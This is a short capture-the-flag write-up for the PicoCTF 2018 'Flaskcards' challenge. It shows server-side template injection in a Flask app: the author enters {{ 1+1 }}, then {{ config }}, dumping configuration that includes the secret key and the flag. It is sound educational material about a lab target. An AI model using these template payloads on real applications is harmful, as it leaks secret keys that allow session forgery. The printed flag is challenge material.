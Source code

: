 # PicoCTF 2018 "Flaskcards"

<http://2018shell.picoctf.com:43165>

Flask is used in this problem.

First, register test account, and sign in.

There is "Create Card" page.

When I input {{ 1+1 }} in question form, "2" is displayed in "List Cards" page.

The command enclosed in {{  }} is processed in server.

This is Server-Side Template Injection problem.

So, when input {{ config }} in question form, I can get all config values.

```
<Config {'SQLALCHEMY_POOL_TIMEOUT': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PREFERRED_URL_SCHEME': 'http', 'SQLALCHEMY_POOL_SIZE': None, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'SESSION_COOKIE_SAMESITE': None, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'APPLICATION_ROOT': '/', 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'SESSION_COOKIE_NAME': 'session', 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SESSION_COOKIE_DOMAIN': False, 'JSON_AS_ASCII': True, 'EXPLAIN_TEMPLATE_LOADING': False, 'SQLALCHEMY_NATIVE_UNICODE': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'SQLALCHEMY_BINDS': None, 'TEMPLATES_AUTO_RELOAD': None, 'ENV': 'production', 'BOOTSTRAP_CDN_FORCE_SSL': False, 'SQLALCHEMY_MAX_OVERFLOW': None, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_REFRESH_EACH_REQUEST': True, 'PROPAGATE_EXCEPTIONS': None, 'SERVER_NAME': None, 'DEBUG': False, 'SESSION_COOKIE_PATH': None, 'JSON_SORT_KEYS': True, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SESSION_COOKIE_HTTPONLY': True, 'JSONIFY_MIMETYPE': 'application/json', 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_8f40629c}', 'SQLALCHEMY_RECORD_QUERIES': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_ECHO': False, 'USE_X_SENDFILE': False, 'MAX_CONTENT_LENGTH': None, 'SESSION_COOKIE_SECURE': False, 'BOOTSTRAP_USE_MINIFIED': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'SQLALCHEMY_POOL_RECYCLE': None, 'BOOTSTRAP_SERVE_LOCAL': False}>
```

Flag is picoCTF{secret_keys_to_the_kingdom_8f40629c}

## Reference documents

<https://qiita.com/koki-sato/items/6ff94197cf96d50b5d8f>
